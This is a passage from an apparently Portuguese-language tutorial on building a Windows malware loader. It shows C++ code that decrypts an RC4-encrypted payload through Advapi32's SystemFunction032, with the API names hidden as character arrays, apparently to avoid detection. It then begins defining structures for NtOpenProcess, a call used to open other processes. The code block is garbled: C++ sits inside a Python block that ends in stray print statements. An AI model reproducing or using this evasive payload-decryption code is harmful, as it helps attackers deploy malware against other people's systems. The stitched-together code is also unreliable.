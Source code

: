 ```python
typedef NTSTATUS(NTAPI* fnSystemFunction032)(
    USTRING* Img,
    USTRING* Key
    );

BOOL RC4DEC(IN PBYTE pRc4Key, IN PBYTE pPayloadData, IN DWORD dwRc4KeySize, IN DWORD sPayloadSize) {
    NTSTATUS STATUS;
    USTRING Key = { dwRc4KeySize, dwRc4KeySize, reinterpret_cast<PWSTR>(pRc4Key) };
    USTRING Img = { sPayloadSize, sPayloadSize, reinterpret_cast<PWSTR>(pPayloadData) };
	  char a_dll_name[] = { 'A','d','v','a','p','i','3','2',0 };
	  char NotSysFunc32[] = { 'S','y','s','t','e','m','F','u','n','c','t','i','o','n','0','3','2',0 };
    fnSystemFunction032 SystemFunction032 = (fnSystemFunction032)GetProcAddress(LoadLibraryA(a_dll_name), NotSysFunc32);

    STATUS = SystemFunction032(&Img, &Key);
    if (STATUS != 0x0) {
        return FALSE;
    }
    return TRUE;
}
 """)
    
    print("""
//////////////////////////////////////////////////////////////////////////////////////////////////////////////////
 """)

if __name__ == "__main__":
    main()
```
## Código
Nosso código vai começar definindo algumas estruturas como `CLIENT_ID`, `UNICODE_STRING`, `OBJECT_ATTRIBUTES`, que vão ser necessárias devido ao uso que vamos fazer de `NtOpenProcess`.

`CLIENT_ID`: Essa estrutura armazena identificadores únicos para um processo e uma thread. O uso dessas identificações é crucial para que o sistema saiba a qual processo ou thread estamos nos referindo, permitindo manipulações precisas.


```cpp
typedef struct _CLIENT_ID {
    HANDLE UniqueProcess; // Identificador do processo
    HANDLE UniqueThread;  // Identificador da thread
} CLIENT_ID, * PCLIENT_ID;

```


`UNICODE_STRING`: Usada para representar strings que suportam caracteres Unicode. Isso é importante em sistemas que precisam manipular diferentes conjuntos de caracteres, permitindo que o programa seja mais flexível e compatível com diversas linguagens:
